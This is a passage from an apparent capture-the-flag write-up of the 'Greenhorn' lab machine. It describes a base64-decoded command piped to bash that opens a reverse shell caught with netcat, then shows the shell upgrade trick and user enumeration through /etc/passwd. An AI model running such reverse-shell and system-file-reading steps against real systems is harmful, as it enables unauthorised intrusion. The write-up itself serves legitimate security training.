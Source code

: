 This is passing the command to echo that string to `base64 -d` and the result into `bash`. On running it, I’ll get a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.25 45320
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/notevil$

```

I’ll upgrade my shell with [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@greenhorn:~/html/pluck/data/modules/notevil$ script /dev/null -c bash
<luck/data/modules/notevil$ script /dev/null -c bash   
Script started, output log file is '/dev/null'.
www-data@greenhorn:~/html/pluck/data/modules/notevil$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@greenhorn:~/html/pluck/data/modules/notevil$

```

## Shell as junior

### Enumeration

There are two other users on the box with home directories in `/home`, through `git` is likely a service account as well:

```

www-data@greenhorn:/home$ ls 
git  junior

```

The same users are configured with shells:

```

www-data@greenhorn:/home/junior$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
git:x:114:120:Git Version Control,,,:/home/git:/bin/bash
junior:x:1000:1000::/home/junior:/bin/bash

```

